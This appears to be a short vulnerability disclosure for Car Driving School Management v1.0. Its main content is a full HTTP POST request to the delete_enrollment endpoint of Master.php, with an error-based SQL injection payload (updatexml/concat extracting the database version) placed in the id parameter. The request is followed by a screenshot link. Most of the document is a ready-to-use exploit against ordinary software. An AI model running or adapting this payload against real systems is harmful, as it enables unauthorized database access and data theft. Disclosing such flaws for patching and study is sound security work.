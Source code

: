 # The parameter on Car Driving School Management v1.0


```sql
POST /cdsms/classes/Master.php?f=delete_enrollment HTTP/1.1
Host: 192.168.1.19
Content-Length: 64
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/cdsms/admin/?page=enrollees
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=af11d32584nvu0nvjbakb00q8h
Connection: close

id=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/159834499-c5a75a37-d93a-4d91-9d00-9d435851c8a6.png)
